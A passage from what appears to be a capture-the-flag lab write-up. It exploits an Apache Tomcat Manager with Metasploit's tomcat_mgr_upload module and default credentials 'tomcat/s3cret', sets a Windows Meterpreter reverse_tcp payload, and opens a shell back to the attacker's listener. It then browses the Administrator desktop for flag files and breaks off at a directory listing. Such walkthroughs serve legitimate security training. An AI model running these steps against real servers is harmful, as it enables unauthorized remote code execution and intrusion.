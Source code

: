 We saw that the target is running on Windows so we need to change it:
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set target 1
target => 1
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpPassword s3cret
HttpPassword => s3cret
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set HttpUsername tomcat
HttpUsername => tomcat
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set RHOSTS 10.129.75.157
RHOSTS => 10.129.75.157
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set RPORT 8080
RPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> run

[-] Exploit failed: java/meterpreter/reverse_tcp is not a compatible payload.
[*] Exploit completed, but no session was created.
```
Apparently, we cannot use the default payload. Let's use a Windows-specific payload:
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> run

[*] Started reverse TCP handler on 192.168.0.87:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying FEXjXwubN02rJ1Hb7yfTrEgOq...
[*] Executing FEXjXwubN02rJ1Hb7yfTrEgOq...
[*] Undeploying FEXjXwubN02rJ1Hb7yfTrEgOq ...
[*] Undeployed at /manager/html/undeploy
[*] Exploit completed, but no session was created.
```
It is better but not enough. Indeed, I forget to configure LHOST:
```
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> set LHOST tun0
LHOST => 10.10.14.45
[msf](Jobs:0 Agents:0) exploit(multi/http/tomcat_mgr_upload) >> exploit

[*] Started reverse TCP handler on 10.10.14.45:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying NLixWIBXkKRkT...
[*] Executing NLixWIBXkKRkT...
[*] Sending stage (175686 bytes) to 10.129.75.157
[*] Undeploying NLixWIBXkKRkT ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.14.45:4444 -> 10.129.75.157:49194) at 2023-10-22 11:23:04 +0200

(Meterpreter 1)(C:\apache-tomcat-7.0.88) > 
```
We can now search for the flag. I looked at the `Users` directory one by one to finally found the flags:
```
(Meterpreter 1)(C:\apache-tomcat-7.0.88) > cd C:\\Users\\Administrator\\Desktop\\
(Meterpreter 1)(C:\Users\Administrator\Desktop) > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-06-19 05:43:09 +0200  desktop.ini
040777/rwxrwxrwx  0     dir   2018-06-19 06:09:40 +0200  flags

(Meterpreter 1)(C:\Users\Administrator\Desktop) > cd flags\\
(Meterpreter 1)(C:\Users\Administrator\Desktop\flags) > dir
```